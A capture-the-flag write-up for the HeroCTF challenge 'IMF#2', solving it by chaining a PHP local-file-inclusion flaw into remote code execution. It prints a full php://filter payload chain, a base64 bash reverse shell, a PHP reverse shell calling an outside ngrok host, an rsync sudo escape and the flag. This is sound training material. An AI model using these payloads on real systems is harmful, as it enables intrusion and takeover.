


# IMF#2: A woman's weapon 
Category: System

## Description
Historically considered as a woman's weapon, pretty sure that's not true and anyone can exploit it.

**PS**: When you understand what to exploit, try it locally first, as a failed attempt would very likely make any further attempts impossible.

\> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**

Author : **Log_s**

## Write-up
- Continuing from [IMF#1: Bug Hunting](../system-imf-1/README.md), we examined the contents of the other issues and discovered two interesting ones.
- The first issue contained a file called [`log_checker.php`](solution/log_checker.php). It is a simple PHP file that checks for the presence of the `file` query parameter. If the parameter exists, it includes the specified file using PHP's `include` function. Otherwise, it includes the `/var/log/backup.log` file.

- The second issue provided a hyperlink with the label [https://localhost:8081/upload?file=YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8wLjAuMC4wLzExMTEgMD4mMSI=](https://localhost:8081/upload?file=YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8wLjAuMC4wLzExMTEgMD4mMSI=). However, the `href` of the anchor tag pointed to rickroll [https://www.youtube.com/watch?v=dQw4w9WgXcQ](https://www.youtube.com/watch?v=dQw4w9WgXcQ). We decoded the base64-encoded string (`YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8wLjAuMC4wLzExMTEgMD4mMSI=`) and found that it contained a payload for a reverse shell (`bash -c "bash -i >& /dev/tcp/0.0.0.0/1111 0>&1"`).

- Based on this information, it appears that we need to achieve Remote Code Execution (RCE) through an endpoint that accepts a file path as a query parameter.
- We discovered that this endpoint belongs to the `backup` server mentioned in the `welcome.txt` file from the previous challenge.
- The `backup` server is hosted on `backup:80`, accessible from the remote server (`dev`) we're currently on.
- To access the `backup` server, we can open another terminal and use the following command to forward our traffic from local port `1338` to the `backup` server: `ssh -L 1338:backup bob@dyn-02.heroctf.fr -p 11232`.
- For the file to include, we can leverage the LFI2RCE (Local File Inclusion to Remote Code Execution) technique using PHP filters. We can provide a "file" that is created using PHP filters, which takes a GET parameter called `cmd` containing our arbitrary command to execute on the `backup` server.
- The command to generate the payload is: `python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'`.
```
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
- The value of `cmd` is: `php -r '$sock=fsockopen("52.220.121.212",11096);system("sh <&3 >&3 2>&3");'`. This command creates a reverse shell using PHP. We use `ngrok` TCP (`52.220.121.212:11096`) to forward the traffic to our local port `7777`.
- Making a GET request to [http://localhost:1338](http://localhost:1338) with both `file` and `cmd` specified will open a non-interactive shell on our listener.
- To gain an interactive shell, we utilized the availability of Python by executing the following command: `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
- Upon exploring the system, we discovered an intriguing directory located at `/backup`, which was owned by the `backup` user. However, since we were authenticated as `www-data`, our access was limited due to insufficient permissions.
- In our pursuit of escalating privileges, we decided to inspect the privileges assigned to our current user. Running `sudo -l` revealed that we had the ability to execute `rsync` as the `backup` user.
- Leveraging the insights from [GTFOBins](https://gtfobins.github.io/gtfobins/rsync/), we employed the `rsync` command to establish a shell under the context of the `backup` user. The command we used was: `sudo -u backup rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null`. We ran the command to pop an interactive shell again using Python.
- As a result of successfully executing the above commands, we gained access to the `/backup` directory. Within this directory, we discovered a file named `flag.txt` which contained the coveted flag.


Flag: `Hero{n0t_0nly_hum4ns_c4n_b3_po1s3n3d}`
